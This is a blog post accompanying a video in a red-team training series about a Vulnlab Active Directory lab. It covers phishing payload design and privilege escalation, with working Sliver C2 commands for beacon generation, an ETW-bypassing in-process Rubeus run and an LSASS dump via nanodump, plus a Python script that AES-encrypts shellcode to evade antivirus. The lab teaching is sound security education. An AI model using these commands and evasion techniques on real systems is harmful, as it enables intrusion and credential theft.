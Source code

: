 ```yaml
---
categories:
- Vulnlab
image:
  path: https://img.youtube.com/vi/Mtox3EHeYk4/0.jpg
layout: post
media_subpath: /assets/posts/2023-01-18-vl-shinra-those-pesky-humans-initial-payload-design-host-enumeration-getting-system
tags:
- active directory
- c2
- evasion
- phishing
- runas
- windows
title: VL Shinra Part 3 - Initial Payload Design, Host Enumeration & getting
  SYSTEM
---
```


This is the third video of the Shinra series. We will get a shell on Ashleighs machine & escalate privileges.

{% youtube Mtox3EHeYk4 %}

## Topics

- Phishing: Payload design & getting a shell
- Sliver Basics
- Host enumeration
- Switching users with runas
- Exploiting SeDebugPrivilege to get SYSTEM
- Post Exploitation

Additional things to try on the lab:

- See if you can run the domain enumeration steps on client01 in contrast to using your own machine, e.g. port-scanning, bloodhound, adcs, credential spraying etc.
- Craft a payload using any other technique so it gets around the AV
- Craft a payload using indirect syscalls or modify the existing one so it uses DLL Hijacking instead

## Notes

**Sliver**

```terminal
# generate a beacon
generate beacon --mtls 127.0.0.1:53 --os windows --arch amd64 --format shellcode --save xct.raw

# start listener
mtls --lport 53

# execute assembly (in-process, bypasss ETW)
execute-assembly -i -E /home/xct/drop/Rubeus.exe klist|triage|...

# nanodump via armory
ps (list lsass process id)
nanodump 680 core.dmp 1 PMDM

# interactive shell (you can omit the argument to get powershell)
shell --shell-path "c:\\windows\\system32\\cmd.exe"
```

**Encrypt Shellcode with AES**

```python
from base64 import b64encode, b64decode
from binascii import unhexlify, hexlify
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import sys

if __name__ == "__main__":
	if len(sys.argv) < 3:
		print("Usage: ./shellcode_encrypt file key iv")
		exit(1)

	file_name = sys.argv[1]
	password = sys.argv[2].encode()
	iv = sys.argv[3].encode()

	data = []
	with open(file_name,"rb") as f:
		data = f.read()

	print(f"Key: {password}")
	print(f"IV: {iv}")	
	print(f"Data: {data[:16]}..")

	data = pad(data, AES.block_size)
	cipher = AES.new(password, AES.MODE_CBC, iv)
	cipher_text = cipher.encrypt(data)

	with open('xct.bin','wb') as f:
		f.write(cipher_text)
```